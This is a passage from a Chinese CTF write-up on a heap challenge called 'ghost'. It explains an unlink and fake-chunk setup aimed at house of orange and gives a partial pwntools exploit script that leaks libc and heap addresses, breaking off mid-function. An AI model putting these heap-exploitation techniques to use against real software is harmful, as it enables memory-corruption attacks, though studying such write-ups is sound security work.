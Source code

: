 到这里的流程图如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.mutepig.club/usr/uploads/2017/11/1736029287.png)

这样最后释放**heap_2**的时候，就会调用**unlink**与我们构造的**fake_chunk**合并为一个**unsorted bin**，而我们此时可以控制其头部，于是就可以实现**houseoforange**攻击了。 由于给的**libc**是最新版的，所以对**vtable**进行了校验，所以无法使用**houseoforange**。那么先放个本地成功的**exp**：

```
#!/usr/bin/env python
# encoding: utf-8

from pwn import *
p = process("./ghost")
libc = ELF("./libc.so.6")

def newheap(data):
    p.recvuntil("Your choice: ")
    p.sendline("1")
    p.recvuntil("Data :")
    p.sendline(str(data))

def delheap(index):
    p.recvuntil("Your choice: ")
    p.sendline("2")
    p.recvuntil("Index :")
    p.sendline(str(index))

def addghost(magic, desc):
    p.recvuntil("Your choice: ")
    p.sendline("3")
    p.recvuntil("Magic :")
    p.sendline(str(magic))
    p.recvuntil("Description :")
    p.send(desc)

def seeghost(magic):
    p.recvuntil("Your choice: ")
    p.sendline("4")
    p.recvuntil("Magic :")
    p.sendline(str(magic))

def delghost():
    p.recvuntil("Your choice: ")
    p.sendline("5")


def leak_libc():
    newheap("0")
    newheap("1")
    delheap(0)
    addghost(1,'1'*8)
    seeghost(1)
    ret = p.recvuntil('$')
    addr = ret.split('11111111')[1][:-1].ljust(8,'x00')
    unsorted_addr = u64(addr)-0xa0
    libc_addr = (unsorted_addr &amp; 0xfffffffff000)-0x3c4000
    delghost()
    delheap(1)
    return unsorted_addr , libc_addr

def leak_heap():
    newheap("0")
    addghost(1,'1'*8+'2'*8)
```